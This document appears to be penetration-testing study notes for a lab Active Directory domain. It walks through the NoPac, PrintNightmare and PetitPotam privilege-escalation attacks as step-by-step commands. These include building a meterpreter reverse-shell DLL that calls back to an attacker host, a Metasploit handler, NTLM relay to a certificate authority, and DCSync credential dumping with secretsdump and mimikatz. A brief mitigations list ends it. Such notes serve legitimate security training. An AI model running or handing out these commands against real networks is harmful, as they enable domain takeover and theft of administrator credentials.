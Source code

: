 ## NoPac (SamAccountName Spoofing)

Privilege escalation technique to gain SYSTEM shell on Domain Controller

**Ensuring Impacket is Installed & noPac
```
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install
git clone https://github.com/Ridter/noPac.git
```

**Scanning for NoPac
```
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
- If ms-DS-MachineAccountQuota is set to 0, this attack will fail

**Running NoPac & Getting a Shell
```
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```
- This is an smbexec shell, meaning it must use exact paths instead of navigating the directory structure using cd
- We can confirm the location of saved tickets with 'ls'
- We could then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync.

**Using noPac to DCSync the Built-in Administrator Account
```
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

**Windows Defender & SMBEXEC.py Considerations
If Windows Defender is enabled on the target, our shell may be established, but issuing commands will fail.



## PrintNightmare
Allows for privilege escalation and remote code execution
```
git clone https://github.com/cube0x0/CVE-2021-1675.git
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

**Enumerating for MS-RPRN
```
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

**Generating a DLL Payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

**Creating a Share with smbserver.py
```
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

**Configuring & Starting MSF multi/handler
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```

**Running the Exploit
```
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

**Getting the SYSTEM Shell
```
shell
whoami
```


## PetitPotam (MS-EFSRPC)

**Starting ntlmrelayx.py
```
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```
- If we do not know the location of the CA, we can use the tool: https://github.com/zer1t0/certi

In another window:
```
python3 PetitPotam.py 172.16.5.225 172.16.5.5 
```

**Requesting a TGT Using gettgtpkinit.py
```
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```
- Use the base64 encoded certificate that was captured with ntlmrelayx.py

**Setting the KRB5CCNAME Environment Variable
```
export KRB5CCNAME=dc01.ccache
```
- Attack host uses this file for Kerberos authentication attempts

**Using Domain Controller TGT to DCSync
```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

**Confirming Admin Access to the Domain Controller
```
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

Alternate route after receiving TGT for our target:
**Submitting a TGS Request for Ourselves Using getnthash.py
```
python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```
- key is the AS-REP encryption key we obtained when requesting the TGT earlier

**Using Domain Controller NTLM Hash to DCSync
```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```


Alternate approach once we obtain the base64 certificate via ntlmrelayx.py (WINDOWS)
**Requesting TGT and Performing PTT with DC01$ Machine Account
```
.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt
```

**Performing DCSync with Mimikatz
```
cd .\mimikatz\x64\
.\mimikatz.exe
lsadump::dcsync /user:inlanefreight\krbtgt
```

**Mitigations
- To prevent NTLM relay attacks, use Extended Protection for Authentication along with enabling Require SSL to only allow HTTPS connections for the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services
- Disabling NTLM authentication for Domain Controllers
- Disabling NTLM on AD CS servers using Group Policy
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services are in use

